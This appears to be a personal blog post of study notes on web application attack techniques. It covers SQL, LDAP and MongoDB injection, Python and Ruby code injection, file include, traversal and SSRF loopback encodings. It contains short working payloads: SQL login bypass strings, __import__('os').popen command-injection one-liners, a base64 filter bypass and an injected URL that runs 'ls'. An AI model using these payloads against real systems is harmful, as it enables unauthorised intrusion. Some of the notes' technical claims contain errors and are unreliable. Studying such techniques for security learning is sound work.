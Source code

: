 ```yaml
---
title: Essentials
layout: post
---
```


## Comment
`%00` would be good to also think about
php: `//` `#` `/**/` ; string concatenation: `'string1'.'string2'`
sql: `--` `#`

## SQL
By default SQL will ignore trailing spaces. Also SQL is not case sensitive.
i.e. "Admin " and "admin" are the same

## Server Response
If the response code is `3xx`(redirection) or `201`(created), and the `Location` response header exists, the page is redirected to where the `Location` header specifies.

## file format
There might be useful information in json or js format. It can be accessed via formatting the `accept` header or by messing with the url.

## Mass-Assignment
adding attributes to submitting data. e.g. `user[admin]=true`
Let's say there is an attribute like 'organisation'. Ids might be assigned rather than the string of the name of the organization, i.e. `organisation_id`.

## Remote Code Execution / Code Injection
Null byte(`NULL %00`) injection could be to control the string to owns liking.

### php
Since PHP 5.3.4, paths with null in them are considered invalid.
`phpinfo()` is a great function to use to confirm penetration.


### Ruby
참고:https://stackoverflow.com/questions/6338908/ruby-difference-between-exec-system-and-x-or-backticks
In ruby, backticks can be used for code injection e.g. \`uname\`

Ruby comments are #.
One thing to note is, in url, + are just another way of expressing space.
To write + in html url, you must write the hexidecimal version of it which is `%2b`

### Python
`os.system()` or   `os.popen().read()` can be used.
#### importing
`__import__('os').system('ls')` or `__import__('os').popen('ls').read()`
https://stackoverflow.com/questions/28231738/import-vs-import-vs-importlib-import-module

#### bypassing restrictions for inserting certain characters directly
Indirectly pass strings on by encoding the string in something like *base64* and decode the thing within the code injection.
e.g. `__import__('base64').b64decode(LOCALLY_INCODED_STRING)`

## Command Execution
Just as a reminder
- command1 && command2 that will run command2 if command1 succeeds.
- command1 || command2 that will run command2 if command1 fails.
- command1 ; command2 that will run command1 then command2.
- command1 | command2 that will run command1 and send the output of command1 to command2.; *referred to as pipelining*

If there are situations in which the output is only put onto the standard output which you do not have access to, connect to your device using **netcat, curl, ping, etc..** to confirm penetration. (On an unrelated note, god the world *penetration* gives off this weird vibe and I hate it lol)

***In the command line, commands within backticks(`) are executed first, and then the main command is run***
***$([COMMAND]) is the more modern method. It is recommended over backticks because backticks are easy to confuse it with single quotes***

## Directory Traversal
The directory `/etc/../../../../../../` is the same as `/` because the excess `../` does not matter and will be disregarded automatically.


## File Include
### php
Include function can include outside files from the http protocol. e.g. http://[URL]/?include=http://[SERVER IP]

### Possible Security Measures
1. The prefix could limited to enusre no file traverse.

## LDAP (Lightweight Directory Access Protocol)
Some LDAP servers approve NULL bind entry.

Filters are used to sort out data.
※ `cn` = condition
- OR: `(|(cn=[INPUT1])(cn=[INPUT2]))`
- AND: `(&(cn=[INPUT1])(cn=[INPUT2]))`

A filter used for logging users in could look like the following.
`(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))`

Injection can be done by the following methods:
1. `%00` (NULL) injection


## MongoDB
MongoDB stores data in json files.
`|| 1==1` is the MongoDB equivalent of `1=1`
this.[attribute].match([regex]) to see if certain attribute matches your set condition. e.g.`admin' && this.password.match([regex])`

## SQL Injection
`SELECT * FROM [table] WHERE username=[username] AND password =[password];`
`/login.php?username=admin' or 1=1 -- ` or `/login.php?username=admin' -- `

Possible security measures.
1. Check if the number of content returned is 1. -> use `LIMIT`
2. Restricts spaces (NO SPACE) -> use `\t` in the place of spaces
3. Restricts spaces AND tabs -> use `#`

### Character encding(charset) inconsistencies
`%bf%27`, if not having the correct charset, could be interpreted as `¿` and a `'`. This is due to the database not having the charset necessary.
This exploitation can be prevented by a simple `SETT CHARACTER SET 'GBK';`

## SSRF (Server Side Request Forgery)
### different ways of loopback
1. `localhost` 
2. `127.0.0.1`
> IPv4 network standards reserve the entire 127.0.0.0/8 address block for loopback purposes.
So basically, `127.0.0.1 ~ 127.255.255.254` are all reserved for loopback.
3. `127.1`
4. `017700000001`: I get 177 is the octal version of 127, but what I don't get is why there are that many 0s between 177 and 1.
5. `0177.0.0.01`: octal version
For more ways to express ip addresses: https://www.hacksparrow.com/networking/many-faces-of-ip-address.html

## Questions
1. https://ptl-c04f30b2-0d3cba74.libcurl.so/hello/hacker%22%2bstr(exec('import%20os'))%2bstr(os.popen('ls').read())%2b%22 why doens't this url work?
2. weirdly enough, in sql injection, there needs to be a space after `--` for the code to work. i.e. `-- `. Why is that?
3. `017700000001`: I get 177 is the octal version of 127, but what I don't get is why there are that many 0s between 177 and 1.

## Things that might be worth studying
1. Character encoding; code injection
